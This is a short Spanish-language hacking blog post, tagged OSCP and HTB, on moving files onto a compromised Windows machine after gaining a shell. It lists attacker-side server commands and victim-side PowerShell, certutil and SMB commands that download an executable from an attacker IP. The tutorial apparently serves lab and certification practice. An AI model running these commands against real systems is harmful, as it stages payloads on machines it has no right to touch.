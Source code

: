 ```yaml
---
layout: single
title: Transferir archivos despues de la explotacion
excerpt: "En este post escribo como transferir archivos despues haber explotado una maquina y tener una shell inversa"
date: 2020-11-10
classes: wide
header:
  teaser: /assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg
  teaser_home_page: true
categories:
  - Hacking
tags:
  - OSCP
  - HTB
  - Hacking
---
```


<p align="center">
<img src="/assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg">
</p>

Hola a todos, hoy escribire un post de como transferir archivos a una maquina victima. El escenario pensado es que pudimos hackear una maquina victima, hemos obtenido una shell. Sin embargo por diversos motivos nesecitamos transferir archivos a dicha maquina. Asi que pongo unas tecnicas que he ido aprendiendo

# Transferir archivos despues de la explotacion

_Despues obtener una shell es nesecario transferir archivos desde la maquina atacante a la maquina victima_
aqui escribire unos metodos:

> Para esta Prueba de Concepto mi IP sera 10.10.14.99 

## Metodo 1

### Atacante

```bash
python3 -m http.server 80
```

### Victima

#### Powershell

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.99/bfill.exe', 'c:\Users\Public\Downloads\bfill.exe')"
```
#### Certutil

```bash
certutil.exe -f -urlcache -split http://10.10.14.99/bfill.exe bfill.exe
```

## Metodo 2 - SMB Server

### Atacante

```bash
impacket-smbserver NombreCarpetaCompartida rutaCarpetaCompartida
```

### Victima

```bash
copy \\10.10.14.99\\NombreCarpetaCompartida\ArchivoDentrodeCarpeta.exe
```

